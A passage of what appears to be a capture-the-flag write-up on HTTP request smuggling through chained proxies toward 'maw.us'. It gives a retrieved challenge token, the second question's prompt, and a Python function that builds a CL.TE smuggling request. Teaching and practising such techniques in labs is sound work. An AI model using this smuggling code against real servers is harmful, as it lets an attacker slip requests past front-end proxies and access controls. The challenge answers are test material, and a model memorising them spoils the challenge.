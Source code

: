 ![A screenshot of the exploit being run. The output is the text found under ../challenge/proxies/maelstrom/token.html (however, the TOKEN is replaced with the actual token, af11d8ae6422).](./imgs/maelstrom-token.png "Smuggling to maelstrom.us")

In this case, the token was `af11d8ae6422`.

## Question 2

*Token 2: Retrieve the token found at `/token` on `maw.us` after passing through `maelstrom.us`.*

*Enter the token found after accessing /token in the Maw.*

Before we continue, we will need a reliable way to smuggle requests past `channel.us` to make progress towards Kessel. That is, whatever request we need to reach `maw.us` will need to take advantage of the CL.TE vulnerability from Token 1. Having to change the content length by hand every time would be tiresome. Using a tool like Burpsuite might be possible, but I don't believe it's well-suited to the multi-layered request smuggling we need to do.

Instead, let's write some simple Python to generate the request. The following code takes an inner request, adds a "0" chunk to the beginning, and calculates the correct length. With the request generated we can write some Python sockets to send it directly to the server, or we could output to a file and use `netcat` like before. For now, this is sufficient.

```python
def passChannel(innerRequest):
    chunk = "0\r\n\r\n"
    request = f"POST /maelstrom HTTP/1.1\r\n"
    request += "Host: channel.us:8080\r\n"
    request += f"Content-Length: {len(innerRequest) + len(chunk)}\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += "Connection: keep-alive\r\n"
    request += f"\r\n{chunk}{innerRequest}"

    return request
```
